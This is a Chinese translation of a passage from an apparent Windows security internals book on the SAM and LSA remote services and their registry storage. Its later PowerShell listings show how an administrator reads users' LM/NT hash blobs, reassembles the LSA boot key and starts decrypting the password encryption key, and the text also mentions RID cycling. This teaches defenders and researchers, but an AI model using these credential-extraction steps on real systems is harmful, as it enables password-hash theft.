你可以使用Access参数请求连接上的特定访问权限。如果没有指定（如列表 10-9 中所示），则命令将请求允许的最大访问权限。以下是为 SAM 服务器连接定义的访问权限：

连接启用连接到 SAM 服务器

关闭  启用关闭 SAM 服务器

初始化启用初始化 SAM 数据库

创建域启用在 SAM 数据库中创建新域

列举域启用列举 SAM 数据库中的域

查找域启用从 SAM 数据库中查找域的信息

要连接到 SAM 服务器，安全描述符必须授予调用者连接访问权限。关闭、初始化和创建域访问权限已被定义用于 SAM 服务不再支持的操作。

> 注意
> 
> *默认配置仅允许计算机本地* Administrators *组的成员远程访问 SAM。如果调用者不是本地管理员，则无论 SAM 上的安全描述符配置如何，访问都将被拒绝。Windows 10 引入了这一附加限制，以使* *恶意用户更难在加入域的系统上列举本地用户和组，或利用弱安全配置。此限制不适用于域控制器或在本地访问 SAM 时。*

##### 域对象

*域对象*是 SAM 提供的可安全访问的资源。连接上的EnumerateDomains访问权限允许您列举 SAM 数据库中域的名称，而LookupDomain允许您将这些名称转换为 SID，SID 是使用SamOpenDomain API 打开域对象所需的。

PowerShell 在Get-SamDomain命令中实现了此 API。在列表 10-10 中，我们使用它来检查 SAM 数据库中的域配置。

```
PS> **Get-SamDomain -Server $server -InfoOnly**
Name     DomainId
----     --------
GRAPHITE S-1-5-21-2318445812-3516008893-216915059
Builtin  S-1-5-32

PS> **$domain = Get-SamDomain -Server $server -Name "$env:COMPUTERNAME"**
PS> **$domain.PasswordInformation**
MinimumLength : 7
HistoryLength : 24
Properties    : Complex
MaximumAge    : 42.00:00:00
MinimumAge    : 1.00:00:00 
```

列表 10-10：列举并打开域

我们首先列举可访问的 SAM 域。因为我们使用了InfoOnly参数，所以此命令不会打开任何域对象；它只会返回域的名称和域 SID。我们正在查询一台工作站，所以第一项是本地工作站名称，在本例中是*GRAPHITE*，以及本地计算机的 SID。第二项是内建域，其中包含诸如*BUILTIN\Administrators*等组。

请注意，如果列举的域位于域控制器上，SAM 服务不会查询本地 SAM 数据库。相反，服务会从 Active Directory 中访问用户数据。在这种情况下，整个域会替代本地域对象；无法直接在域控制器上查询本地用户。在第十一章中，我们将看到如何使用 Active Directory 的本机网络协议访问相同的信息。

我们可以使用相同的命令通过指定域的名称或 SID 来打开域对象目录。在本例中，我们选择使用名称。由于域是一个可安全访问的对象，您可以从以下列表中指定用于打开域对象的特定访问权限：

ReadPasswordParameters  启用读取密码参数（例如策略）

WritePasswordParams  启用写入密码参数

ReadOtherParameters  启用读取一般域信息

WriteOtherParameters  启用写入一般域信息

CreateUser  启用创建新用户

CreateGroup  启用创建新组

CreateAlias  启用创建新别名

GetAliasMembership  启用获取别名的成员资格

ListAccounts  启用列举域中的用户、组或别名

Lookup  启用查找用户、组或别名的名称或 ID

AdministerServer  启用更改域配置，如域复制

拥有适当的访问权限后，您可以读取或写入域对象的属性。例如，如果您被授予了 ReadPasswordParameters 访问权限，您可以通过 PasswordInformation 属性查询域的密码策略，正如我们在 列表 10-10 中所做的那样。

如果您被授予了 ListAccounts 访问权限，您还可以使用域对象列举另外三种类型的资源：用户、组和别名。我们将在接下来的章节中依次查看这些资源。

##### 用户对象

*用户对象*表示您所期望的内容：一个本地用户帐户。您可以通过 SamOpenUser API 或 Get-SamUser PowerShell 命令打开用户对象。列表 10-11 展示了如何使用 Get-SamUser 命令列举域中的用户。

```
PS> **Get-SamUser -Domain $domain -InfoOnly**
Name               Sid
----               ---
admin              S-1-5-21-2318445812-3516008893-216915059-1001
Administrator      S-1-5-21-2318445812-3516008893-216915059-500
DefaultAccount     S-1-5-21-2318445812-3516008893-216915059-503
Guest              S-1-5-21-2318445812-3516008893-216915059-501
user               S-1-5-21-2318445812-3516008893-216915059-1002
WDAGUtilityAccount S-1-5-21-2318445812-3516008893-216915059-504

❶ PS> **$user = Get-SamUser -Domain $domain -Name "WDAGUtilityAccount"**
PS> **$user.UserAccountControl**
❷ AccountDisabled, NormalAccount
PS> **Format-NtSecurityDescriptor $user -Summary**
<Owner> : BUILTIN\Administrators
<Group> : BUILTIN\Administrators
<DACL>
❸ Everyone: (Allowed)(None)(ReadGeneral|ReadPreferences|ReadLogon|ReadAccount|
ChangePassword|ListGroups|ReadGroupInformation|ReadControl)
❹ BUILTIN\Administrators: (Allowed)(None)(Full Access)
GRAPHITE\WDAGUtilityAccount: (Allowed)(None)(WritePreferences|ChangePassword|
ReadControl) 
```

列表 10-11：列举域中的用户

返回的用户名和 SID 列表应与 列表 10-1 的输出相匹配，在那里我们使用了 Get-LocalUser 命令。要获取有关用户的更多信息，您需要打开用户对象 ❶。

你可以查询已打开用户的一个属性，即用户账户控制标志列表。这些标志定义了用户的各种属性。在这种情况下，由于我们已经打开了 *WDAGUtilityAccount* 用户，我们发现它已设置了 AccountDisabled 标志 ❷。这与 Listing 10-1 中的输出相符，该输出将此用户账户的 Enabled 值设置为 False。

与连接和域一样，每个用户对象都可以配置自己的安全描述符。这些可以授予以下访问权限：

ReadGeneral  启用读取一般属性；例如，用户名和全名属性

ReadPreferences  启用读取偏好设置；例如，用户的文本代码页偏好

WritePreferences  启用写入偏好设置；例如，用户的文本代码页偏好

ReadLogon  启用读取登录配置和统计信息；例如，最后一次登录时间

ReadAccount  启用读取账户配置；例如，用户账户控制标志

WriteAccount  启用写入账户配置；例如，用户账户控制标志

ChangePassword  启用更改用户密码

ForcePasswordChange  启用强制更改用户密码

ListGroups  启用列出用户的组成员身份

ReadGroupInformation  当前未使用

WriteGroupInformation  当前未使用

其中最有趣的访问权限可能是 ChangePassword 和 ForcePasswordChange。第一个允许通过类似 SamChangePassword 的 API 更改用户密码。为了使更改成功，调用者必须提供旧密码以及要设置的新密码。如果旧密码与当前设置的不匹配，服务器会拒绝更改请求。你可以在 Listing 10-11 中看到，*Everyone* 组 ❸ 和 *WDAGUtilityAccount* 用户被授予了 ChangePassword 访问权限。

然而，存在某些情况下，管理员可能需要能够更改用户的密码，即使他们不知道之前的密码（例如，如果用户忘记了密码）。获得ForcePasswordChange 访问权限的调用者可以在不需要知道旧密码的情况下分配新密码。在这种情况下，密码是通过 SamSetInformationUser API 设置的。在列表 10-11 中，只有*Administrators*组被授予ForcePasswordChange 访问权限❹。

##### 组对象

*组对象*在创建用户令牌时配置用户的组成员身份。我们可以使用 Get-SamGroup 命令列举域中的组，并使用 Get-SamGroupMember 命令列举组的成员，如列表 10-12 所示。

```
PS> **Get-SamGroup -Domain $domain -InfoOnly**
Name Sid
---- ---
None S-1-5-21-2318445812-3516008893-216915059-513
❶ PS> **$group = Get-SamGroup $domain -Name "None"**
❷ PS> **Get-SamGroupMember -Group $group**
RelativeId                           Attributes
----------                           ----------
       500 Mandatory, EnabledByDefault, Enabled
       501 Mandatory, EnabledByDefault, Enabled
       503 Mandatory, EnabledByDefault, Enabled
       504 Mandatory, EnabledByDefault, Enabled
      1001 Mandatory, EnabledByDefault, Enabled
      1002 Mandatory, EnabledByDefault, Enabled 
```

列表 10-12: 列出域组对象并列举成员

这个命令的输出可能会让你感到惊讶。我们在列表 10-4 中看到的其余组在哪里？另外，如果你检查之前的输出，你会发现没有*None*组，尽管我们在这里看到了它。到底发生了什么？

首先，Get-LocalGroup 命令返回本地域和独立的*BUILTIN*域中的组。在列表 10-12 中，我们只查看本地域，因此不会看到像*BUILTIN\Administrators*这样的组。

其次，None 组在 Get-LocalGroup 命令使用的高级 API 中被隐藏，因为它并不是你应该修改的组。它由 LSA 管理，当新用户被创建时，LSA 会自动添加新成员。如果我们通过打开该组 ❶ 并使用 Get-SamGroupMember 命令 ❷ 来列出成员，我们会看到成员作为用户的相对 ID 与组属性一起存储。

请注意，组并未存储完整的 SID。这意味着一个组只能包含同一域中的成员，这大大限制了它们的使用。因此，高级 API 不会暴露出一种方便的方式来操作它们。

有趣的是，域对象的默认安全描述符并没有授予任何人CreateGroup访问权限，这个权限允许创建新组。Windows 确实不希望你使用组对象（不过，如果你真的想要，你可以手动作为管理员更改安全描述符，以允许组创建成功）。

##### 别名对象

最终的对象类型是*别名对象*。这些对象代表了你更为熟悉的组，因为它们是由Get-LocalGroup命令返回的底层类型。例如，*BUILTIN*域对象有诸如*BUILTIN\Administrators*的别名，该别名仅在本地 Windows 系统上使用。

如列表 10-13 所示，我们可以使用Get-SamAlias命令列举域中的别名，并通过Get-SamAliasMember查询其成员。

```
PS> **Get-SamAlias -Domain $domain -InfoOnly**
Name          Sid
----          ---
❶ Awesome Users S-1-5-21-1653919079-861867932-2690720175-101

❷ PS> **$alias = Get-SamAlias -Domain $domain -Name "Awesome Users"**
❸ PS> **Get-SamAliasMember -Alias $alias**
Name                     Sid
----                     ---
NT AUTHORITY\INTERACTIVE S-1-5-4
GRAPHITE\admin           S-1-5-21-2318445812-3516008893-216915059-1001 
```

列表 10-13：列出域别名对象并枚举成员

在这种情况下，本地域中唯一的别名是*Awesome Users* ❶。要查看其成员列表，我们可以通过名称打开该别名 ❷，并使用Get-SamAliasMember命令 ❸。请注意，每个成员都存储了完整的 SID，这意味着（与组不同）别名的成员可以来自不同的域。这使得别名作为一种分组机制更加有用，也很可能是 Windows 尽力隐藏组对象的原因。

组和别名对象支持相同的访问权限，尽管原始的访问掩码值有所不同。你可以在这两种对象上请求以下类型的访问权限：

AddMember  启用向对象添加新成员

RemoveMember  启用从对象中移除成员

ListMembers  启用列出对象的成员

ReadInformation  启用读取对象的属性

WriteAccount  启用写入对象的属性

本文讨论的 SAM 远程服务到此结束。现在让我们快速浏览第二个远程服务，它允许你访问域策略。

#### 域策略远程服务

微软在 *MS-LSAD* 中记录了访问 LSA 策略（因此也包括 SECURITY 数据库）所使用的协议。我们可以使用 LsaOpenPolicy Win32 API 来建立与 LSA 策略的连接，该 API 返回一个句柄，供后续调用使用。PowerShell 通过 Get-LsaPolicy 命令暴露此 API，如 清单 10-14 中所示。

```
PS> **$policy = Get-LsaPolicy**
PS> **Format-NtSecurityDescriptor $policy -Summary**
<Owner> : BUILTIN\Administrators
<Group> : NT AUTHORITY\SYSTEM
<DACL>
NT AUTHORITY\ANONYMOUS LOGON: (Denied)(None)(LookupNames)
BUILTIN\Administrators: (Allowed)(None)(Full Access)
Everyone: (Allowed)(None)(ViewLocalInformation|LookupNames|ReadControl)
NT AUTHORITY\ANONYMOUS LOGON: (Allowed)(None)(ViewLocalInformation|LookupNames)
`--snip--` 
```

清单 10-14：打开 LSA 策略、查询其安全描述符，并查找 SID

首先，我们在本地系统上打开 LSA 策略。如果访问的不是本地系统，可以使用 SystemName 参数指定要访问的系统。LSA 策略是一个可安全访问的对象，我们可以查询其安全描述符，如下所示，前提是我们具有 ReadControl 权限。

通过在调用 Get-LsaPolicy 命令时使用 Access 参数，您可以为打开的策略指定以下一个或多个访问权限：

ViewLocalInformation  启用查看策略信息

ViewAuditInformation  启用查看审计信息

GetPrivateInformation  启用查看私密信息

TrustAdmin  启用管理域信任配置

CreateAccount  启用创建新账户对象

CreateSecret  启用创建新密钥对象

CreatePrivilege  启用创建新特权（不支持）

SetDefaultQuotaLimits  启用设置默认配额限制（不支持）

SetAuditRequirements  启用设置审计事件配置

AuditLogAdmin  启用管理审计日志

ServerAdmin  启用管理服务器配置

LookupNames  启用查找账户的 SID 或名称

Notification  启用接收策略更改的通知

拥有策略对象和适当的访问权限后，您可以管理服务器配置。您还可以查找并打开 SECURITY 数据库中显示的三种类型的对象，如 图 10-6 所示：账户、密钥和受信任的域。以下部分将描述这些对象。

##### 账户对象

*账户对象* 与我们通过 SAM 远程服务访问的用户对象不同。账户对象不需要与注册的用户账户关联；相反，它用于配置我们之前讨论的账户权限。例如，如果你想为用户账户分配特定的权限，必须确保该用户的 SID 存在一个账户对象，然后将权限添加到该对象。

如果你具有 CreateAccount 访问权限，你可以使用 LsaCreateAccount API 创建一个新的账户对象。然而，你通常不需要直接执行此操作。通常，你会像在 列表 10-15 中所示那样，从 LSA 策略访问账户对象。

```
❶ PS> **$policy = Get-LsaPolicy -Access ViewLocalInformation**
❷ PS> **Get-LsaAccount -Policy $policy -InfoOnly**
Name                                Sid
----                                ---
Window Manager\Window Manager Group S-1-5-90-0
NT VIRTUAL MACHINE\Virtual Machines S-1-5-83-0
NT SERVICE\ALL SERVICES             S-1-5-80-0
NT AUTHORITY\SERVICE                S-1-5-6
BUILTIN\Performance Log Users       S-1-5-32-559
`--snip--`

PS> **$sid = Get-NtSid -KnownSid BuiltinUsers**
❸ PS> **$account = Get-LsaAccount -Policy $policy -Sid $sid**
PS> **Format-NtSecurityDescriptor -Object $account -Summary**
<Owner> : BUILTIN\Administrators
<Group> : NT AUTHORITY\SYSTEM
<DACL>
❹ BUILTIN\Administrators: (Allowed)(None)(Full Access)
Everyone: (Allowed)(None)(ReadControl) 
```

列表 10-15：列出并打开 LSA 账户对象

我们首先通过 ViewLocalInformation 访问权限❶打开策略，然后使用 Get-LsaAccount PowerShell 命令来枚举账户对象❷。你可以看到，输出列出了内部组，而不是我们在本章前面检查的本地用户，并返回每个账户的名称和 SID。

然后，你可以通过其 SID 打开账户对象；例如，在这里我们打开内置用户的账户对象❸。账户对象是可安全控制的，并且有一个相关的安全描述符，你可以查询它。在这种情况下，我们可以在格式化输出中看到，只有 *Administrators* 组获得账户的完全访问权限❹。另一个 ACE 授予 *Everyone* 只读控制权限，这防止了枚举账户权限。如果安全描述符允许，账户对象可以分配以下访问权限：

View  启用查看账户对象的信息，例如权限和登录权限

AdjustPrivileges  启用调整分配的权限

AdjustQuotas  启用调整用户配额

AdjustSystemAccess  启用调整分配的登录权限

如果我们以管理员身份重新运行 列表 10-15 中的命令，我们就可以使用账户对象来枚举权限和登录权限，如在 列表 10-16 中所示。

```
PS> **$account.Privileges**
Name                          Luid              Enabled
----                          ----              -------
SeChangeNotifyPrivilege       00000000-00000017 False
SeIncreaseWorkingSetPrivilege 00000000-00000021 False
SeShutdownPrivilege           00000000-00000013 False
SeUndockPrivilege             00000000-00000019 False
SeTimeZonePrivilege           00000000-00000022 False

PS> **$account.SystemAccess**
InteractiveLogon, NetworkLogon 
```

列表 10-16：枚举权限和登录权限

这里有趣的是，特权和登录权限以不同的方式列出，尽管你之前看到过账户权限以类似特权的方式表示：使用名称来标识分配权限。对于账户对象，特权作为 LUID 列表存储，这与 Token 对象使用的格式相同。但是，登录权限作为位标志集存储在 SystemAccess 属性中。

这种差异源于微软设计的账户权限 API，这些 API 被 Get-NtAccountRight 和相关命令使用。这些 API 将各种账户权限和特权合并为一个，以便开发人员更容易编写正确的代码。我建议使用 Get-NtAccountRight 或底层 API，而不是直接访问 LSA 策略来检查和修改账户权限。

##### 机密对象

LSA 可以为系统中的其他服务以及自身维护机密数据。它通过*机密对象*暴露这些数据。要创建一个新的机密对象，您需要在策略上具有 CreateSecret 访问权限。列表 10-17 展示了如何打开并检查现有的 LSA 密钥对象。以管理员身份运行这些命令。

```
PS> **$policy = Get-LsaPolicy**
❶ PS> **$secret = Get-LsaSecret -Policy $policy -Name "DPAPI_SYSTEM"**
❷ PS> **Format-NtSecurityDescriptor $secret -Summary**
<Owner> : BUILTIN\Administrators
<Group> : NT AUTHORITY\SYSTEM
<DACL>
BUILTIN\Administrators: (Allowed)(None)(Full Access)
Everyone: (Allowed)(None)(ReadControl)

❸ PS> **$value = $secret.Query()**
PS> **$value**
CurrentValue    CurrentValueSetTime  OldValue        OldValueSetTime
------------    -------------------  --------        ---------------
{1, 0, 0, 0...} 3/12/2021 1:46:08 PM {1, 0, 0, 0...} 11/18 11:42:47 PM

❹ PS> **$value.CurrentValue | Out-HexDump -ShowAll**
          00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F  - 0123456789ABCDEF
-----------------------------------------------------------------------------
00000000: 01 00 00 00 3B 14 CB FB B0 83 3D DF 98 A5 42 F9  - ....;.....=...B.
00000010: 65 64 4B B5 95 63 E1 E8 9C C8 00 C0 80 0C 71 E0  - edK..c........q.
00000020: C3 46 B1 43 A4 96 0E 65 5E B1 EC 46              - .F.C...e^..F 
```

列表 10-17：打开并检查 LSA 密钥

我们首先打开策略，然后使用 Get-LsaSecret 命令按名称打开一个机密 ❶。没有 API 可以列举存储的机密；您必须知道它们的名称才能打开它们。在这种情况下，我们打开一个在每个系统上都应该存在的机密：*数据保护 API (DPAPI)* 主密钥，名为 *DPAPI_SYSTEM*。DPAPI 用于基于用户密码加密数据。为了使其正常工作，需要一个系统主密钥。

由于机密是可以保护的，我们可以检查其安全描述符 ❷，该描述符可以分配以下访问权限：

SetValue 启用设置机密的值

QueryValue 启用查询机密的值

如果您具有 QueryValue 访问权限，您可以使用 Query 方法检查密钥的内容，如列表 10-17 ❸所示。机密包含当前值和先前的值，以及这些值设置时的时间戳。在此，我们以十六进制形式显示当前值 ❹。机密值的内容由 DPAPI 定义，我们在本书中不会进一步深入探讨。

##### 受信域对象

安全数据库中的最终对象类型是*受信域对象*。这些对象描述了森林中域之间的信任关系。尽管域策略远程服务最初是为在引入 Active Directory 之前使用域而设计的，但它仍然可以用于查询现代域控制器上的信任关系。

清单 10-18 展示了如何在域控制器上打开策略，然后查询受信域的列表。

```
PS> **$policy = Get-LsaPolicy -ServerName "PRIMARYDC"**
PS> **Get-LsaTrustedDomain -Policy $policy -InfoOnly**
Name                      TrustDirection TrustType
----                      -------------- ---------
engineering.mineral.local BiDirectional  Uplevel
sales.mineral.local       BiDirectional  Uplevel 
```

清单 10-18：枚举域控制器的信任关系

要检查和配置信任关系，你应该使用 Active Directory 命令，而不是域策略远程服务的命令。因此，我不会在此详细讨论这些对象；我们将在下一章回到检查信任关系的话题。

> 注意
> 
> *尽管受信域是可以安全管理的对象，但无法通过任何远程服务 API 配置其安全描述符；尝试这样做会产生错误。这是因为安全性是由 Active Directory 实现的，而不是 LSA。*

##### 名称查找和映射

如果你被授予了LookupNames访问权限，域策略远程服务将允许你将 SID 转换为名称，反之亦然。例如，如清单 10-19 所示，你可以指定一个或多个 SID，使用Get-LsaName PowerShell 命令获取相应的用户和域。你还可以指定一个名称，使用Get-LsaSid获取对应的 SID。

```
PS> **$policy = Get-LsaPolicy -Access LookupNames**
PS> **Get-LsaName -Policy $policy -Sid "S-1-1-0", "S-1-5-32-544"**
Domain  Name           Source  NameUse
------  ----           ------  -------
        Everyone       Account WellKnownGroup
BUILTIN Administrators Account Alias

PS> **Get-LsaSid -Policy $policy -Name "Guest" | Select-Object Sddl**
Sddl
----
S-1-5-21-1653919079-861867932-2690720175-501 
```

清单 10-19：从策略中查找 SID 或名称

在 Windows 10 之前，未经身份验证的用户可以使用查找 API 枚举系统中的用户，因为匿名用户被授予了LookupNames访问权限。这个问题在于，攻击者调用*RID 循环*时，可能会对系统上的有效用户进行暴力破解。如在清单 10-14 中所示，当前版本的 Windows 明确拒绝了LookupNames访问权限。然而，RID 循环仍然是经过身份验证的非管理员域用户的有用技术，因为非管理员无法使用 SAM 远程服务。

即使是那些不是知名 SID 或 SAM 数据库中注册帐户的 SID，也可以添加从 SID 到名称的映射。Win32 API LsaManageSidNameMapping控制这一点。它被 SCM（在第三章中讨论）用于设置特定于服务的 SID，以控制资源访问，您也可以自己使用它，尽管会遇到以下限制：

+   调用者需要启用SeTcbPrivilege，并且必须与 LSA 位于同一系统上。

+   要映射的 SID 必须在 NT 安全权限中。

+   SID 的第一个 RID 必须在80和111之间（包括这两个值）。

+   您必须先注册域 SID，才能在该域中添加子 SID。

您可以调用LsaManageSidNameMapping API，通过Add-NtSidName和Remove-NtSidName PowerShell 命令来添加或移除映射。清单 10-20 展示了如何以管理员身份将 SID 到名称的映射添加到 LSA。

```
❶ PS> **$domain_sid = Get-NtSid -SecurityAuthority Nt -RelativeIdentifier 99**
❷ PS> **$user_sid = Get-NtSid -BaseSid $domain_sid -RelativeIdentifier 1000**
PS> **$domain = "CUSTOMDOMAIN"**
PS> **$user = "USER"**
PS> **Invoke-NtToken -System {**
❸ **Add-NtSidName -Domain $domain -Sid $domain_sid -Register**
    **Add-NtSidName -Domain $domain -Name $user -Sid $user_sid -Register**
❹ **Use-NtObject($policy = Get-LsaPolicy) {**
 **Get-LsaName -Policy $policy -Sid $domain_sid, $user_sid**
 **}**
❺ **Remove-NtSidname -Sid $user_sid -Unregister**
 **Remove-NtSidName -Sid $domain_sid -Unregister**
**}**
Domain       Name      Source  NameUse
------       ----      ------  -------
CUSTOMDOMAIN           Account Domain
CUSTOMDOMAIN USER      Account WellKnownGroup 
```

清单 10-20：添加和移除 SID 到名称的映射

我们首先定义一个 RID 为99 ❶的域 SID，然后基于该域 SID 创建一个 RID 为1000 ❷的用户 SID。我们正在模拟*SYSTEM*用户，因此我们具有SeTcbPrivilege特权，这意味着我们可以使用Add-NtSidName命令，并使用Register参数来添加映射 ❸。（请记住，在添加用户之前，您需要先注册该域。）然后我们使用策略检查 LSA 的 SID 映射 ❹。最后，我们移除 SID 到名称的映射，以清理我们所做的更改 ❺。

这就是我们对 LSA 策略讨论的总结。接下来，让我们看看 SAM 和 SECURITY 这两个配置数据库是如何本地存储的。

### SAM 和 SECURITY 数据库

你已经看到了如何使用远程服务访问 SAM 和 SECURITY 数据库。然而，探索这些数据库是如何以注册表键的形式本地存储的，也将是一个有益的学习过程。通过直接访问数据库，您可以获得远程服务没有暴露的信息，比如密码哈希。

警告

*这些注册表项并非设计为直接访问，因此它们存储用户和策略配置的方式随时可能发生变化。请记住，本节中提供的描述在你阅读时可能已经不准确。此外，由于直接访问是恶意软件常用的技术，因此你在本节中尝试运行的脚本代码可能会被任何在系统上运行的防病毒软件阻止。*

#### 通过注册表访问 SAM 数据库

我们从 SAM 数据库开始，它位于注册表路径*REGISTRY\MACHINE\SAM*。该路径受到保护，只有*SYSTEM*用户可以读取和写入其注册表项。你可以通过使用Start-Win32ChildProcess命令以*SYSTEM*用户身份运行 PowerShell，然后以这种方式访问注册表，但有更简单的方法。

作为管理员，我们可以通过启用SeBackupPrivilege来绕过注册表的读取访问检查。如果在启用该特权时创建一个新的对象管理器驱动程序，我们可以使用命令行检查 SAM 数据库注册表项。以管理员身份运行列表 10-21 中的命令。

```
PS> **Enable-NtTokenPrivilege SeBackupPrivilege**
PS> **New-PSDrive -PSProvider NtObjectManager -Name SEC -Root ntkey:MACHINE**
PS> **ls -Depth 1 -Recurse SEC:\SAM\SAM**
Name                    TypeName
----                    --------
SAM\SAM\Domains         Key
SAM\SAM\LastSkuUpgrade  Key
SAM\SAM\RXACT           Key
❶ SAM\SAM\Domains\Account Key
❷ SAM\SAM\Domains\Builtin Key 
```

列表 10-21：使用 SeBackupPrivilege 映射*MACHINE*注册表项并列出 SAM 数据库注册表项

我们首先启用SeBackupPrivilege。启用该特权后，我们可以使用New-PSDrive命令将*MACHINE*注册表项映射到*SEC:*驱动器。这使得该驱动器可以使用SeBackupPrivilege来绕过安全检查。

我们可以使用常规的 PowerShell 命令列出 SAM 数据库注册表项的内容。最重要的两个键是*Account* ❶和*Builtin* ❷。*Account*键表示我们通过 SAM 远程服务访问的本地域，并包含本地用户和组的详细信息。*Builtin*键包含本地内建组；例如，*BUILTIN\Administrators*。

##### 提取用户配置

让我们利用对 SAM 数据库注册表项的访问权限提取用户帐户的配置。列表 10-22 展示了如何检查用户配置。以管理员身份运行这些命令。

```
PS> **$key = Get-Item SEC:\SAM\SAM\Domains\Account\Users\000001F4** ❶
PS> **$key.Values** ❷
Name                    Type   DataObject
----                    ----   ----------
F                       Binary {3, 0, 1, 0...}
V                       Binary {0, 0, 0, 0...}
SupplementalCredentials Binary {0, 0, 0, 0...}

PS> **function Get-VariableAttribute($key, [int]$Index) {**
 **$MaxAttr = 0x11**
 **$V = $key["V"].Data**
 **$base_ofs = $Index * 12**
 **$curr_ofs = [System.BitConverter]::ToInt32($V, $base_ofs) + ($MaxAttr * 12)**
 **$len = [System.BitConverter]::ToInt32($V, $base_ofs + 4)**

 **if ($len -gt 0) {**
 **$V[$curr_ofs..($curr_ofs+$len-1)]**
 **} else {**
 **@()**
 **}**
**}**

PS> **$sd = Get-VariableAttribute $key -Index 0** ❸
PS> **New-NtSecurityDescriptor -Byte $sd**
OwnerDACL ACE Count SACL ACE Count Integrity Level
------------------- -------------- ---------------
BUILTIN\Administrators 42NONE

PS> **Get-VariableAttribute $key -Index 1 | Out-HexDump -ShowAll** ❹
                   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F  - 0123456789ABCDEF
-----------------------------------------------------------------------------
00000000: 41 00 64 00 6D 00 69 00 6E 00 69 00 73 00 74 00  - A.d.m.i.n.i.s.t.
00000010: 72 00 61 00 74 00 6F 00 72 00                    - r.a.t.o.r.

PS> **$lm = Get-VariableAttribute $key -Index 13** ❺
PS> **$lm | Out-HexDump -ShowAddress**
00000000: 03 00 02 00 00 00 00 00 4B 70 1B 49 1A A4 F9 36
00000010: 81 F7 4D 52 8A 1B A5 D0

PS> **$nt = Get-VariableAttribute $key -Index 14** ❻
PS> **$nt | Out-HexDump -ShowAddress**
00000000: 03 00 02 00 10 00 00 00 CA 15 AB DA 31 00 2A 72
00000010: 6E 4B CE 89 27 7E A6 F6 D8 19 CE B7 58 AC 93 F5
00000020: D1 89 73 FB B2 C3 AA 41 95 FE 6F F8 B7 58 37 09
00000030: 0D 4B E2 4C DB 37 3F 91 
```

列表 10-22：显示默认管理员用户的数据

注册表键存储用户信息，在这些键中，名称是用户 RID 在域中的十六进制表示。例如，在清单 10-22 中，我们查询 *Administrator* 用户，它的 RID 在十进制中总是为 500。因此，我们知道它会存储在键 000001F4 中，这是 RID 的十六进制表示 ❶。你也可以列出 *Users* 键来查找其他用户。

该密钥包含少量的二进制值 ❷。在此示例中，我们有三个值：F 值，它是一组固定大小的用户属性；V，它是一组可变大小的属性；以及 SupplementalCredentials，它可以用来存储除了 NT 哈希之外的凭证，如在线账户或生物特征信息。

可变大小属性值的开头是一个属性索引表。每个索引条目都有一个偏移量、一个大小和附加的标志。重要的用户数据存储在这些索引中：

**索引 0    **用户对象的安全描述符 ❸

**索引 1    **用户的名称 ❹

**索引 13    **用户的 LM 哈希 ❺

**索引 14    **用户的 NT 哈希 ❻

LM 和 NT 哈希值并不是以明文形式存储的；LSA 使用多种不同的加密算法，如 RC4 和高级加密标准（AES），对它们进行混淆。让我们开发一些代码来提取用户的哈希值。

##### 提取系统密钥

在原始版本的 Windows NT 中，你只需要 SAM 数据库注册表键来解密 NT 哈希。在 Windows 2000 及以后的版本中，你需要一个额外的密钥，即 *LSA 系统密钥*，它隐藏在 *SYSTEM* 注册表键中。此密钥还用于作为 SECURITY 数据库注册表键中值的混淆机制的一部分。

提取 NT 哈希的第一步是将系统密钥提取为我们可以使用的形式。清单 10-23 显示了一个示例。

```
PS> **function Get-LsaSystemKey {**
❶ **$names = "JD", "Skew1", "GBG", "Data"**
 **$keybase = "NtKey:\MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\"**
 **$key = $names | ForEach-Object {**
 **$key = Get-Item "$keybase\$_"**
❷ **$key.ClassName | ConvertFrom-HexDump**
 **}**
❸ **8, 5, 4, 2, 11, 9, 13, 3, 0, 6, 1, 12, 14, 10, 15, 7 |**
**ForEach-Object {**
 **$key[$_]**
 **}**
**}**
❹ PS> **Get-LsaSystemKey | Out-HexDump**
3E 98 06 D8 E3 C7 12 88 99 CF F4 1D 5E DE 7E 21 
```

清单 10-23：提取混淆的 LSA 系统密钥

密钥存储在 LSA 配置键的四个独立部分中 ❶。为了增加混淆层次，这些部分并不是作为注册表值存储的；相反，它们是存储在很少使用的注册表键类名值中的十六进制文本字符串。我们可以使用 ClassName 属性提取这些值，然后将它们转换为字节 ❷。

然后，我们必须使用固定顺序对启动密钥的字节值进行排列，以生成最终密钥 ❸。我们可以运行Get-LsaSystemKey PowerShell 命令来显示字节 ❹。请注意，密钥的值是特定于系统的，因此你看到的输出几乎肯定会不同。

有一个有趣的地方需要注意的是，获取启动密钥不需要管理员权限。这意味着任意文件读取漏洞可能使非管理员能够提取支持*SAM*和*SECURITY*注册表键的注册表哈希文件，并解密其内容（这看起来并不是防御深度的一个特别好的应用）。

##### 解密密码加密密钥

解混淆过程的下一步是使用系统密钥解密*密码加密密钥 (PEK)*。PEK 用于加密我们在清单 10-22 中提取的用户哈希值。在清单 10-24 中，我们定义了解密 PEK 的函数。

```
PS> **function Unprotect-PasswordEncryptionKey {**
❶ **$key = Get-Item SEC:\SAM\SAM\Domains\Account**
 **$fval = $key["F"].Data**

❷ **$enctype = [BitConverter]::ToInt32($fval, 0x68)**
 **$endofs = [BitConverter]::ToInt32($fval, 0x6C) + 0x68**
 **$data = $fval[0x70..($endofs-1)]**
❸ **switch($enctype) {**
 **1 {Unprotect-PasswordEncryptionKeyRC4 -Data $data}**
 **2 {Unprotect-PasswordEncryptionKeyAES -Data $data}**
 **default {throw "Unknown password encryption format"}**
 **}**
**}** 
```

清单 10-24：定义解密函数 Unprotect-PasswordEncryptionKey

首先，我们查询包含 PEK 数据的注册表值 ❶。接下来，我们在固定属性注册表变量中找到加密的 PEK，位置偏移量为0x68 ❷（请记住，该位置可能会变化）。第一个 32 位整数表示使用的加密类型，可以是 RC4 或 AES128。第二个 32 位整数是后续加密 PEK 的长度。我们提取数据后，调用一个特定算法的解密函数 ❸。

让我们来看一下解密函数。清单 10-25 展示了如何使用 RC4 解密密码。

```
❶ PS> **function Get-MD5Hash([byte[]]$Data) {**
 **$md5 = [System.Security.Cryptography.MD5]::Create()**
 **$md5.ComputeHash($Data)**
**}**

PS> **function Get-StringBytes([string]$String) {**
 **[System.Text.Encoding]::ASCII.GetBytes($String + "`0")**
**}**

PS> **function Compare-Bytes([byte[]]$Left, [byte[]]$Right) {**
 **[Convert]::ToBase64String($Left) -eq [Convert]::ToBase64String($Right)**
**}**

❷ PS> **function Unprotect-PasswordEncryptionKeyRC4([byte[]]$Data) {**
